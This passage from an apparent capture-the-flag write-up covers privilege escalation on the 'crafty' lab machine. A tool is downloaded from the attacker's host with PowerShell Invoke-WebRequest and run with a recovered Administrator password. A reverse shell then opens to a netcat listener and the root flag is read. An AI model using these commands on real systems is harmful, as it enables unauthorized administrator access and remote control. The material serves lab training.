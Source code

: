 Fetch it from the target machine.

```shell
PS C:\ProgramData> powershell.exe Invoke-WebRequest http://10.10.16.13:8100/RunasCs.exe -O RunasCs.exe
```

Then we execute RunasCs.exe on target machine with the found password and it works.

```shell
PS C:\ProgramData> .\RunasCs.exe Administrator s67u84zKq8IXw "cmd /c whoami"

crafty\administrator
```

We now start a new local netcat listener and connect from target machine using RunasCs.exe.

Start the local listener.

```shell
labadmin@labmachine:~/crafty$ nc -lnvp 6001
Ncat: Version 7.95 ( https://nmap.org/ncat )
Ncat: Listening on [::]:6001
Ncat: Listening on 0.0.0.0:6001
```

Connect from target machine.

```shell
PS C:\ProgramData> .\RunasCs.exe Administrator s67u84zKq8IXw cmd -r 10.10.16.13:6001

[+] Running in session 1 with process function CreateProcessWithLogonW()
[+] Using Station\Desktop: WinSta0\Default
[+] Async process 'C:\Windows\system32\cmd.exe' with pid 4556 created in background.
```

And we are connected as Administrator on our local listener.

```shell
labadmin@labmachine:~/crafty$ nc -lnvp 6001
Ncat: Version 7.95 ( https://nmap.org/ncat )
Ncat: Listening on [::]:6001
Ncat: Listening on 0.0.0.0:6001
Ncat: Connection from 10.10.11.249:49834.
Microsoft Windows [Version 10.0.17763.5329]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
crafty\administrator
```

And we get the root flag.

```shell
c:\Users\Administrator\Desktop>type root.txt
type root.txt
[...OMITTED...]
```
